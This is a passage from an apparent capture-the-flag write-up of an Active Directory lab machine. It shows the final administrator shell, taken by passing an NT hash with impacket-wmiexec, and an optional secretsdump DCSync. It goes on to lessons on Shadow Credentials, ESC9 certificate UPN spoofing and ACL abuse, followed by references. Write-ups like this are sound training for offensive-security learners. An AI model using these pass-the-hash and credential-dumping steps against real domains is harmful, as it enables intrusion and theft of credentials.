

---

## Step 9 — Administrator shell, `root.txt`

```bash
impacket-wmiexec -hashes :0d5b49608bbce1751f708748f67e2d34 \
  certified.htb/administrator@10.129.231.186
```

`wmiexec` works this time, as Administrator, DCOM launch/activation
rights are there.



```
whoami
type C:\Users\Administrator\Desktop\root.txt
```



Optional flex, full DCSync from the recovered credential:

```bash
impacket-secretsdump -hashes :0d5b49608bbce1751f708748f67e2d34 \
  certified.htb/administrator@10.129.231.186
```

---

## What went wrong along the way (real process)

- **Kerberoast hash did not crack.** Rockyou + `best64` + `rockyou-30000.rule`
  and out. The right call was to stop and take the ACL path, not to
  spend another hour piling on masks. On an exam clock this is a
  ~15-minute test, not a project.
- **First `add groupMember` was a silent no-op.** Sanity checking the
  write with a `get object … --attr member` would have caught it in
  seconds instead of 20 minutes later.
- **`wmiexec` denied even though `nxc winrm` worked.** WinRM and WMI
  are separate rights surfaces. When one door is closed under the
  same credential, it usually is not a credential problem.
- **evil-winrm rubyntlm bug.** Not my problem, `nxc` and impacket did
  the work. Fix logged for future me.
- **certipy v5.1.0 name-mismatch on `auth`.** Empirical fix: revert the
  UPN to its original before running `auth`. I do not know the exact
  mechanism inside certipy 5.1.0, logging it as such.

---

## Lessons

- **`GenericWrite` on a user is a Shadow-Credentials primitive
  every time.** It also lets you set an SPN for targeted
  Kerberoast, but Shadow Credentials is quieter, does not care
  about password complexity, and does not leave a broken cracked
  hash on your notes.
- **Owner ≠ member.** If you own a group, you can only rewrite its
  DACL. You still have to add yourself as a member for the
  member-only rights (like write access to a group's outbound
  targets) to apply to you.
- **ESC9 is a UPN spoof, not a cert spoof.** The cert itself is
  perfectly valid. What matters is that the CA left off the
  extension that carries the identity SID, forcing the KDC to trust
  the certificate's UPN. Any AD account you can rewrite the UPN on
  turns into any AD account you can name, including the one whose
  UPN you set it to.
- **Different auth surfaces answer to different rights.** WinRM,
  WMI/DCOM, SMB admin shares, MSRPC, same NT hash, four different
  ACL bases. Never conclude "the account cannot do X" from "the hash
  didn't authenticate to Y".
- **Read-back after every AD write.** Ten seconds now saves twenty
  minutes later when the next tool fails for an unrelated-looking
  reason.

---

## References

- **ADCS Attacks with Certipy**, Serioton CTF's ADCS reference
  covering the ESC1–ESC15 primitives and the certipy command shape
  for each one. The ESC9 walkthrough here follows the same UPN
  rewrite → request → auth pattern I used above:
  <https://seriotonctf.github.io/ADCS-Attacks-with-Certipy/index.html>
- **BloodyAD Cheatsheet**, same author's cheatsheet, indexed by
  the BloodHound edge you already have. That is what makes it
  useful in flow: read the edge in BloodHound, look up the exact
  `bloodyAD` invocation, run it, verify with `get object`:
  <https://seriotonctf.github.io/BloodyAD-Cheatsheet/index.html>
- **`targetedKerberoast.py`**, ShutdownRepo's tool that handles
  the whole set-SPN → roast → clean-up loop for `GenericWrite` /
  `WriteSPN` edges. One command instead of three:
  <https://github.com/ShutdownRepo/targetedKerberoast/blob/main/targetedKerberoast.py>
- **BloodHound, "Abuse Info" panel on each edge.** This is where the
  mechanisms actually live. Click the `WriteOwner` edge and BloodHound
  spells out the "become owner → grant self `GenericAll` → then use
  the group rights" sequence, with the `PowerView` and `bloodyAD` /
  `impacket` commands attached. The same panel on `GenericWrite`
  documents the Shadow Credentials primitive
  (`msDS-KeyCredentialLink` → `certipy shadow auto`). Everything in
  the ACL half of this write-up came from those panels the first
  time, worth reading in full for any BloodHound edge you have not
  used before.

---

